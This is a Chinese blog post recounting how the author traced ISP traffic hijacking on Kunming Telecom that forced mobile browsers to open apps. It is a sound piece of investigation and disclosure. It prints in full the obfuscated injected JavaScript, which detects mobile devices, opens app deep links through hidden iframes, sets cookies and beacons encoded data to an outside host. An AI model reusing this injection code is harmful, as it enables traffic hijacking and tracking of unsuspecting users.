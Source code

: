 ```yaml
---
title: 记一次昆明电信网络劫持跟踪过程
date: 2018-09-17 22:52:00
tags: 
    - 网络劫持
---
```


网络劫持大家已经司空见惯，通常，这样的行径大多出现在二级运营商手中。曾经斗胆用过“*城宽带”，劫持得丧心病狂，连支付宝的HTTPS流量都劫持，搞得支付宝连连报证书校验不通过错误~现在我用了昆明电信，本想应该节操高一些，没想到啊没想到，他个浓眉大眼的家伙也背叛了革命！
<!-- more -->

2018年6月以来，我在家里手机上网时常会遇到一件很匪夷所思得事情:上某些网站的时候手机会跳转到一些APP上。刚开始我并没有太在意，以为是一些下线低了点的站长在站点里嵌入了一些广告代码。毕竟经济寒冬下，大家日子都很难过，吃相丑一点就丑一点吧，IT人不为难IT人~可是随着时间的推移，这样的事情愈演愈烈，CSDN沦陷，博客园沦陷，阿里巴巴也沦陷....这就很不正常了。前两家作为一个服务码农的站点，这样作死很不可思议，连马爸爸的站点都干这种事，我就打死不信了。

![dianxin-jiechi-20189172349](http://blog.uliian.com/dianxin-jiechi-20189172349.jpg)

应用被劫持后主要表现如下：

![dianxin-jiechi-2018917231458](http://blog.uliian.com/dianxin-jiechi-2018917231458.gif)
有时候还会弹出4、5个APP，这吃相~简直不要太丑陋！！！

身为一个守(懒)法(惰)好(程)公(序)民(员)，我首先做了一件事：**打10000号投诉！！**
毕竟我国对流量劫持行为是有法律规定的：《中华人民共和国刑法》流量劫持算作网络犯罪：

![dianxin-jiechi-2018917231935](http://blog.uliian.com/dianxin-jiechi-2018917231935.png)

于是我秉承着佛系青年原则，于 **2018年9月12日早7：44** 向中国电信进行了投诉。
> 中国电信的工作人员秉承着“我是你爹”的一贯态度，对我所提出的问题是否存在予以否认。并要求我提供截图~

> 我对此表示不解：1、我这是在和你通电话诶，我怎么给你截图？2、截图也说不清楚这个问题啊，这是一个动态问题，我怎么截图？

> 中国电信的工作人员表示：1、你不截图更说不清楚；2、我发给你一个QQ，你把你的截图发给这个QQ就好了。

好吧，我想了想，录个屏算了，于是就有了上面大家所见的动态截屏。但是我一直等啊等，手机却没有接到任何所谓的QQ号~万般无奈之下我向工信部提交了投诉。并于第二天我收到了这样一条短信：

![dianxin-jiechi-2018917232954](http://blog.uliian.com/dianxin-jiechi-2018917232954.jpg)

OK,你们牛~~你们是用户他爹！

庆幸的是，我于2018年9月14日上午10:25接到了电信辖区工作人员的电话，他表示希望上门了解情况。可惜的是，我当天不在，小哥态度很好，认真听我说完了我的遭遇，并且加了我的微信，我将我的录屏发给了他。他表示会向上反映，但也还是希望到我家了解一下情况。

在2018年9月17日下午，小哥再次与我取得联系，约定晚上到我家进行现场处理。据说今天晚上昆明会受台风的影响，我对小哥的服务态度还是很感动的~晚上7点多，小哥来到现场，和我想的一样，他能做的并不多，他只是看了一下线路是否正常，别的真的做不了更多，他对我描述的情况表示了解，并表示出了无奈。

身为一个有B格的程序员，怎么能被这样的挫折打倒？被劫持的网站很显然都是HTTP，HTTPS目前还没有发现受到影响！看了看自己的“网络工程”毕业证和已经过期的“CCNA”，觉得还是不能给本本们丢脸，开始追踪追踪到底怎么回事。经过长期的观察，我已经发现某些站点被劫持的概率高，某些站点被劫持的概率低，“阿里巴巴问答”相关的页面，默认全是HTTP协议，被劫持的概率超级高，特别是从搜索引擎跳过去的劫持概率相当了得~

打开电脑，开启`fiddler`，设置远程代理，手机代理撸上去，先把手机浏览器的UA抓了再说。撸完了直接在电脑上模拟操作就行`Chrome UA Spoofer`插件把UA换上去，手机模拟打开~搜索关键字，进入阿里巴巴相关页面。果然上当！

![dianxin-jiechi-2018917234758](http://blog.uliian.com/dianxin-jiechi-2018917234758.png)

流氓到爆有木有啊有木有？！从这堆红字里面，我们可以看到，这个页面尝试打开19个APP~丧心病狂啊有木有？！
![dianxin-jiechi-201891723508](http://blog.uliian.com/dianxin-jiechi-201891723508.jpg)

那么问题来了，什么地方调用文件打开这些代码的呢？经过对数据包的一番浏览猜测，我把目光锁定到了一个奇怪的请求上：

![dianxin-jiechi-2018917235331](http://blog.uliian.com/dianxin-jiechi-2018917235331.png)

其他的域名都和阿里巴巴有关，绝大多数是alicdn下的域名，这里怎么冒出这么一个十分违和的东西？我再看里面的内容，更加觉得疑点重重：

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(O(w){9 d=v,q=w.21,11=w.20,l=w.1X,N=w.1W,1D=w.1Y,y=25.2c.2b(),j=1T("1n");C{5(/2d|2f|2e|26|1y|1z/i.1H(y)){9 1h=0,1j=0,1b=0,R=0,P=0,x="",b="",S="",a=u H(),I=u H(),s=u H(),t=u H();5(q!=8&&q.7>0){P=q.7}5(P==0&&l!=8&&l.7>0){P=l.7}L(9 m=0;m<P;m++){1h=0;1j=0;s=u H();t=u H();5(N!=8&&N.7>m&&N[m]!=8&&N[m]!=""){s=N[m].14("|")}5(l!=8&&l.7>m&&l[m]!=8&&l[m]!=""){t=l[m].14("|")}5(s!=8&&s.7>0){L(9 n=0;n<s.7;n++){5(s[n]!=8&&s[n]!=""&&y.k(s[n])>-1){1h++;1v}}}5(1h==0&&t!=8&&t.7>0){L(9 n=0;n<t.7;n++){5(t[n]!=8&&t[n]!=""&&y.k(t[n])>-1){1j++;1v}}}5(1j==0&&q.7>m&&q[m]!=8&&q[m]!=""&&11.7>m&&11[m]!=8){x=q[m];R=11[m];5(x&&x.k("://")>0){5(x.k("1F.1d")>0){b="1I"}h 5(x.k("1i.1d")>0){b="1i"}h{b=x.14("://")[0]}1b=0;5(I!=8&&I.7>0){L(9 o=0;o<I.7;o++){S=I[o];5(S!=8&&S!=""&&b==S){1b=1;1v}}}5(1b==0&&R!=8&&R>0){L(9 i=0;i<R;i++){a.1S(x)}}I.1S(b)}}}5(a==8||a.7==0){a=q}1m(a,y,j,1,1L)}}B(f){K.M(\'27\'+f)};O 1m(a,y,j,1c,J){5(a!=8&&a.7>0){b="",1x=28(2a*1u.1q())%a.7,e=a[1x];C{5(1c>3){J=29}1c++;5(e!=8&&e!=1G&&e!=""&&e.7>0&&e.k("://")>0){5(e.k("1F.1d")>0){b="1I"}h 5(e.k("1i.1d")>0){b="1i"}h{b=e.14("://")[0]}5(j==8||j==1G){j=""}5(j==""||j.k(b)<0){5(/1y|1z/i.1H(y)){C{9 16=v.1Z(\'1V\');16.1l=e;16.23.22=\'24\';v.2g.2A(16);5(1u.1q()<0.1B){(u 1A().1l=1D)}}B(f){K.M(\'2F\'+f)}}h{e=e.1p(/2C/g,\'2D\');C{1C.1p(e)}B(f){C{1C.2E=e}B(f){K.M(\'2z\'+f)}}}5(1u.1q()<0.1B){C{9 T=b;5(b.7>10){T=b.2y(0,10)};T=2B(1t.1M("2G|2L|"+T));u 1A().1l="//2M:2I/?p="+T}B(f){K.M(\'2K\'+f)}}j+="|"+b;1w("1n",j,1)}h{J=1E}}h{J=1E}a.2H(1x,1)}B(f){K.M(\'2J\'+f)}C{5(a!=8&&a.7>0){2m(1m,J,a,y,j,1c,J)}h{1w("1n","",1)}}B(f){K.M(\'2o\'+f)}}};O 1T(1o){5(v.G.7>0){E=v.G.k(1o+"=");5(E!=-1){E=E+1o.7+1;18=v.G.k(";",E);5(18==-1){18=v.G.7}1e 2n(v.G.2i(E,18))}}1e 8};O 1w(1K,1J,1R){9 1U=1R;9 1k=u 2h();1k.2k(1k.2j()+1U*1Q*1Q*1L);v.G=1K+"="+2p(1J)+";2v="+1k.2u()};9 1t={X:"2x+/=",1M:O(A){9 Y="";9 1g,W,U,1s,1r,1a,V;9 i=0;A=1t.1N(A);2w(i<A.7){1g=A.1f(i++);W=A.1f(i++);U=A.1f(i++);1s=1g>>2;1r=((1g&3)<<4)|(W>>4);1a=((W&15)<<2)|(U>>6);V=U&Z;5(1P(W)){1a=V=1O}h 5(1P(U)){V=1O}Y=Y+19.X.17(1s)+19.X.17(1r)+19.X.17(1a)+19.X.17(V)}1e Y},1N:O(Q){Q=Q.1p(/\\r\\n/g,"\\n");9 z="";L(9 n=0;n<Q.7;n++){9 c=Q.1f(n);5(c<13){z+=F.D(c)}h 5((c>2r)&&(c<2q)){z+=F.D((c>>6)|2t);z+=F.D((c&Z)|13)}h{z+=F.D((c>>12)|2s);z+=F.D(((c>>6)&Z)|13);z+=F.D((c&Z)|13)}}1e z}}})(2l);',62,173,'|||||if||length|null|var|realURLS|tempS|||tURL|err||else||runCK|indexOf|pcua|||||urls||strTGuas|strPCuas|new|document||tempURL|tempUA|utftext|input|catch|try|fromCharCode|c_start|String|cookie|Array|tempURLS|spanNum|console|for|log|tgua|function|maxLen|string|tempRate|tempRvwCK|tempsub|chr3|enc4|chr2|_0|output|63||rates||128|split||ifr|charAt|c_end|this|enc3|tcheck|loop|com|return|charCodeAt|chr1|tempCheckIn|yangkeduo|tempCheckPc|exp|src|sling|igabnha|c_name|replace|random|enc2|enc1|Base64|Math|break|stck|tindex|android|linux|Image|01|location|ttj|100|alipay|undefined|test|alipays|value|name|1000|encode|_1|64|isNaN|60|days|push|gtck|Days|iframe|t_uai|t_uas|t_tj|createElement|t_rates|t_urls|display|style|none|navigator|itouch|ERROR|parseInt|2000|1E5|toLowerCase|userAgent|ios|iphone|ipad|body|Date|substring|getTime|setTime|window|setTimeout|unescape|error5|escape|2048|127|224|192|toGMTString|expires|while|ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789|substr|error2|appendChild|encodeURIComponent|snssdk143|snssdk141|href|error1|hxxm|splice|8866|error4|error3|ADR|794543516'.split('|'),0,{}))

```

它在掩盖什么？这不是正常的代码，太祖告诉过我们 **事出反常必有妖！！** 看我怎么收拾你个小妖精，这里有一个让 JavaScript 更加漂亮的网站：https://beautifier.io/ 于是我把这段恶心的代码粘贴进去，看看它到底是何方妖孽~

当当当~别的代码都不重要，我们只要看最上面几句话基本就能锁定疑犯：

![dianxin-jiechi-20189180026](http://blog.uliian.com/dianxin-jiechi-20189180026.png)

嘚~ 你个马仔~ ！基本可以确定，这货就是用来执行跳转的代码~ 但是urls是从哪里来的？嘿嘿嘿，看你往哪跑~

![dianxin-jiechi-20189180248](http://blog.uliian.com/dianxin-jiechi-20189180248.png)

继续追踪：

![dianxin-jiechi-20189180148](http://blog.uliian.com/dianxin-jiechi-20189180148.png)

看见了吗看见了吗？阿里巴巴里面出现youku了~ 屏幕太小，无法展现所有URL，但是凶手已经找到了，但是~ ！`detect.js`并不像是一个没用的js，在另一次跟踪中，存放这些属性的是一个叫`location.js`的文件，每次它都会变~顺着抓包列表往下走，很快就会发现一个神奇的文件：
![dianxin-jiechi-20189180757](http://blog.uliian.com/dianxin-jiechi-20189180757.png)

同样的文件名，多了一个查询字符串这个文件点开一看，明显是个正经货~我就不截图了~那基本的流程就可以确定了：


> 页面需要`detect.js` =>网络劫持`detect.js` =>假货`detect.js`存放APP URL变量，并向页面添加`yy.js`文件 =>为了保证页面正常使用，将真货`detect.js`文件URL添加查询字符串绕过劫持规则引导向真实js文件 =>`yy.js`文件将APP URL取出并做跳转操作。

最后，我们看看那个奇怪的域名到底是一个什么样的站点？直接访问其顶级域名，看到这样一个站点：
![dianxin-jiechi-201891801859](http://blog.uliian.com/dianxin-jiechi-201891801859.png)

呵呵呵呵，我有一万句MMP不知当不当讲！